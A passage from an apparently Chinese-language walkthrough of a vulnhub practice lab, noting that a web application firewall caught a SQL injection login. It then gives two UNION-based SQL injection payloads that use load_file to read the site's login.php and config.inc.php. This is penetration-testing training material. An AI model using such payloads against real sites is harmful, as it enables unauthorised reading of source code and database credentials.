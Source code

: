 ```
虽然登录成功，但是被检测出来是sql注入，被waf拒绝会话了。
```

![image-20241207184747098](vulnhub靶场实战/image-20241207184747098.png)	

```
查看这个login.php的源码发现了数据库的配置文件。
' union select 1,2,3,load_file("/var/www/login.php"),5,6,7,8#
```

![image-20241207184949033](vulnhub靶场实战/image-20241207184949033.png)	

```
查看该配置文件，又得到了另一个配置文件的路径
' union select 1,2,3,load_file("/var/www/includes/config.inc.php"),5,6,7,8#
```
